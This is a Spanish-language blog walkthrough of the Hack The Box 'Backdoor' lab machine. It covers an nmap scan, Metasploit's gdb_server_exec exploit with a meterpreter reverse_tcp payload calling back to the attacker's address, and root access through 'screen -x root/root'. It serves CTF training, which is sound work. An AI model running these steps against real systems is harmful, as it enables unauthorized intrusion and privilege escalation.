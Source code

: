 ```yaml
---
title: "HackTheBox: Máquina Backdoor"
published: true
date: 2024-04-14 20:37:00
tags: [CTF, HTB, Metasploit, Ethical Hacking, Cybersecurity]
image: /blog/assets/htb_backdoor/portada.png
---
```


<br>
![](/blog/assets/htb_backdoor/portada.png)
<br>

<br>
### Descripción
* * *
<br>

En esta ocasión, realizaremos un juego CTF a una máquina extremadamente sencilla, o eso parece, la cual se llama “Backdoor”. Usaremos herramientas como `Metasploit Framework` (MSF). 

**Nota**: No recomendamos usar MSF en ambientes reales, porque son herramientas automáticas de las cuales no tenemos control y pueden, durante un pentesting, corromper los archivos de la tecnología que estamos probando.


### Enlace de Lab:
[HTB: Backdoor](https://www.hackthebox.com/machines/backdoor)


### Dificultad:
FÁCIL


### Solución
* * *
<br>

Lo primero es conectarnos a HTB VPN con el siguiente comando y presionando ENTER.

<br>
![](/blog/assets/htb_backdoor/paso_1.png)
<br>


Verificamos que efectivamente nos hemos conectado a HTB.

<br>
![](/blog/assets/htb_backdoor/paso_2.png)
<br>


Vemos la IP de la máquina a la cual realizaremos un CTF.

<br>
![](/blog/assets/htb_backdoor/paso_3.png)
<br>

Observamos nuestra IP dentro del entorno HTB (10.10.14.42).

<br>
![](/blog/assets/htb_backdoor/paso_4.png)
<br>

Ahora haremos un PING a la máquina, en principio, por dos razones:
1. Ver si efectivamente estamos conectados.
2. Reconocer el sistema operativo que atacaremos.

<br>
![](/blog/assets/htb_backdoor/paso_5.png)
<br>

Efectivamente, estamos recibiendo paquetes de la 10.10.11.125, que es nuestra máquina a atacar. Además, nos fijamos en un segundo campo, el cual es TTL (Time To Live), con ese valor, se puede identificar el sistema operativo gracias a este rango:

`64` -> pertenece a Linux

`128` -> pertenece a Windows

En este caso, arroja un 63, esto debido al aislamiento de HTB que se pierde un valor, pero por proximidad podemos determinar que es Linux.

Ahora vamos a identificar los puertos de nuestra máquina a atacar con nmap con el siguiente comando en modo root:

```bash
nmap -n -p- -T5 -v -sCV 10.10.11.125
```

Donde cada flag significa:

`-n`: evitar name resolution, en este caso no es necesario y se tarda bastante.

`-p-`: analiza todos los puertos existentes, por defecto nmap sin este flag analiza el TOP 1000 ports.

`-T5`: velocidad de escaneo, siendo 1 el modo paranoico “indetectable” y 5 el más rápido, a mayor velocidad más ruidoso y detectable eres. Aprovechando que estamos en un espacio controlado, lo ponemos al máximo.

`-v`: va mostrando resultados mientras vamos escaneando. Usado para agilizar el proceso, ya que cada vez que detecta un puerto, no espera hasta al final para dar resultados, sino al instante en que los encuentra.

El nmap nos retorna estos resultados:

<br>
![](/blog/assets/htb_backdoor/paso_6.png)
<br>

`Puerto 80`: mayormente es el puerto estándar para HTTP, es decir, páginas web. Si en el navegador colocamos la IP de la máquina, nos llevará a un WordPress, el cual no luce interesante, es un callejón sin salida. Abundaríamos más, pero no es una máquina de tecnologías webs, sino de backdoors.

`Puerto 22`: es el SSH, en palabras sencillas es acceder de forma remota al ordenador, con todos los permisos y facilidades de como si estuviésemos físicamente en el ordenador.

`Puerto 1337`: este luce interesante, en realidad solo dice waste? No identifica nada, así que buscaremos ese puerto en internet y veremos de qué se trata y para qué se utiliza.

Después de buscar en internet esta tecnología descubrimos que se podía hacer backdoor, así que este es nuestro objetivo. Precisamente, el exploit se llama `gdb_server_exec` y está disponible en `MetaSploit Framework` (MSF).

Así que iniciaremos MSF con el siguiente comando. 

<br>
![](/blog/assets/htb_backdoor/paso_7.png)
<br>


Una vez iniciado, ejecutaremos el siguiente comando que nos arroja un resultado:

<br>
![](/blog/assets/htb_backdoor/paso_8.png)
<br>

```bash
use 0
```
Ya que en la columna # está identificado como un 0 y es el que queremos usar.

Lo primero es conocer el exploit y ver qué pide con el comando:

```bash
show options
```

Donde pide los siguientes valores

<br>
![](/blog/assets/htb_backdoor/paso_9.png)
<br>

Los rellenaremos todos con el siguiente formato:

```bash
set [campo] [valor]
```
Teniendo en cuenta que la LHOST, que es la `máquina nuestra`, no es la IP local (192.168.x.x) sino la que se nos asignó en la network interface tun0.

Existen dos comandos especiales que siempre, o casi siempre (en el 99,9% de los casos) vendrán con los exploits y hay que configurarlos, los cuales son payloads y targets. Para acceder a este menú debemos escribir:

```bash
show payloads
```

y desplegará una lista de payloads. En este caso usaremos el payload `Linux/x64/meterpreter/reverse_tcp` porque la máquina es Linux (TTL->63) y por prueba de ensayo y error pudimos ver que era de 64 bits su arquitectura. Usaremos una consola meterpreter, es la Shell por excelencia para realizar exploits, con opciones a post explotación, facilidad para escalar privilegios y mucha flexibilidad.

Y lo mismo realizaremos con targets:

```bash
show targets
```
y desplegará una lista, en este caso más pequeña, y usaremos la `x86_64 (64-bit)`, es decir, nuestro objetivo será una máquina con una arquitectura de 64 bits.

<br>
![](/blog/assets/htb_backdoor/paso_10.png)
<br>

Ejecutaremos con `run` o `exploit` y veremos los siguientes resultados, realizaremos un `ls` para que despliegue los archivos del directorio y veremos la flag `user.txt`.

<br>
![](/blog/assets/htb_backdoor/paso_11.png)
<br>

Luego, para tener una Shell en condiciones haremos lo siguiente:

```bash
shell
python3 -c "import pty; pty.spawn('/bin/bash')"
```
y si aplicamos un `whoami` obtendremos una respuesta `user`.

Ahora es momento de obtener root, para eso, simplemente bastan los siguientes comandos.

```bash
export TERM=xterm
/usr/bin/screen -x root/root
```

Luego un `whoami` y ya veremos que somos root, solo nos queda ver la flag y terminamos.

<br>
![](/blog/assets/htb_backdoor/paso_12.png)
<br>